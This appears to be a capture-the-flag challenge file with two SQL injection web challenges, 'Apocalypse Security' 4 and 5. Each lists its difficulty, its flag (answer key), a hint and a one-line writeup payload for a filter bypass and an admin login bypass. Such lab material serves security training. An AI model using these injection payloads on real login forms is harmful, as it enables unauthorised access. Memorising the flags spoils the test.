 # Apocalypse Security - 4

After all that threat, the company decided to invest in security. They
said there is a filter. See if you can crack it.



# Difficulty
Medium

# Flag
PCTF{f1l7ers_n0t_s3cur3}

# Hints
SQL injection


# Author
Yojan (drMoscovium)

# Tester

# Writeup
```
admin' UNION NULL, NULL --
```

# Apocalypse Security - 5


Good Job bypassing the filter, can you log in as admin now?


# Difficulty
7/10

# Flag
PCTF{w0rld_0f_sQl_8kdw7}

# Hints
SQL injection


# Author
Yojan (drMoscovium)

# Tester

# Writeup
```
ad'||'min' --
```


